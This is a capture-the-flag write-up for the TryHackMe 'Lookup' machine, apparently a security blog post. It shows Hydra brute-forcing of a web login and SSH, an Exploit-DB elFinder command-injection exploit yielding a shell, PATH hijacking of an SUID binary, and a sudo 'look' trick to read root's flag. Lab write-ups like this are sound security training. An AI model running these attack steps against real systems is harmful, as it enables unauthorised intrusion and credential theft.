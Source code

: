 ```yaml
---
title: "Lookup"
date: 2025-03-01
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Lookup
categories: [TryHackMe, Easy]
tags: [linux, ci]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lookup</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Test your enumeration skills on this boot-to-root machine.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lookup">https://tryhackme.com/room/lookup</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Lookup.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.180.229
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 07:28 EDT
  Nmap scan report for 10.10.180.229
  Host is up (0.040s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.180.229
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 07:29 EDT
  Nmap scan report for 10.10.180.229
  Host is up (0.053s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
  |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
  |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Did not follow redirect to http://lookup.thm
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

When accessing the website, I was redirected to `lookup.thm`, so I added it to my hosts file. After that, the website displayed a login page. I started with directory and subdomain enumeration but didn't find anything useful. 

![Login](/assets/img/tryhackme/Lookup/thm_lookup_1.jpg)

While analyzing the login process, I noticed that the error message changed when the username was correct:
```text
testusername  -> Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
admin         -> Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Since I had a likely valid username, I initiated a brute force attack using Hydra:
```bash
$ hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 07:41:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong password.
[80][http-post-form] host: lookup.thm   login: admin   password: [removed]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-14 07:42:04
```

Hydra detected a change in the error message with this username-password combination, but I wasn't able to log in. This made me think that the password might be correct, but the username was wrong. With this assumption, I initiated another Hydra brute force attack, but this time I brute-forced the username: 
```bash
$ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p '[removed]' lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username or password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 07:46:54
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong username or password.
[80][http-post-form] host: lookup.thm   login: [removed]   password: [removed]
```

## Shell as www-data

Success! I was able to login, with the retrieved credentials and got redirected to another subdomain. After adding `files.lookup.thm` to my hosts file, I was able to access elFinder and checked the version number:

![Elfinder Version](/assets/img/tryhackme/Lookup/thm_lookup_2.jpg)

After researching the version number, I found the following 'PHP connector' Command Injection on <a href="https://www.exploit-db.com/exploits/46481">Exploit-DB</a>. The exploit required an image, so I downloaded a random image of a squirrel, named it `SecSignal.jpg`, and executed the exploit:
```bash
$ python2 exploit.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I then moved over to Penelope for a more comfortable shell environment.

## Privilege Escalation think

While enumerating the system, I found a file called `.passwords`, but I didn't have permission to read it. 
```bash
www-data@lookup:/home/think$ cat .passwords 
cat: .passwords: Permission denied
```

I continued enumerating for files with the SUID bit set:
```bash
www-data@lookup:/home/think$ find / -perm /4000 -type f 2>/dev/null
/usr/sbin/pwm
```

Since it wasn't a regular binary, I executed it and analyzed its behavior:
```bash
www-data@lookup:/home/think$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

It appeared that the script executed the `id` command and displayed the `.password` file for the user whose `id` returned. Since I found the `.password` under the `think` user, I created a new binary that would return the `id` output for the think user: 
```bash
www-data@lookup:/tmp$ touch id
www-data@lookup:/tmp$ echo '#!/bin/bash' > id
www-data@lookup:/tmp$ echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
www-data@lookup:/tmp$ chmod +x id
www-data@lookup:/tmp$ export PATH=/tmp:$PATH
www-data@lookup:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
[...]
```

Success! I now had a list, which was likely a password list. I saved it to a file called `passwdlist` and used it to brute force SSH access for the think user:
```bash
$ hydra -l 'think' -P passwdlist ssh://10.10.180.229
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 08:11:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.180.229:22/
[22][ssh] host: 10.10.180.229   login: think   password: [...]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-14 08:11:50
```

The brute force was successful, and I was able to retrieve the user flag:
```bash
$ ssh think@10.10.180.229

think@lookup:~$ cat user.txt 
  3[removed]e
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
think@lookup:~$ sudo -l
  [sudo] password for think: 
  Matching Defaults entries for think on lookup:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User think may run the following commands on lookup:
      (ALL) /usr/bin/look
```
A quick search on <a href="https://gtfobins.github.io/gtfobins/look/">gftobins</a> gave me all I needed:
```bash
think@lookup:~$ LFILE=/root/root.txt
think@lookup:~$ sudo look '' "$LFILE"
  5[removed]8
```

solved! :)
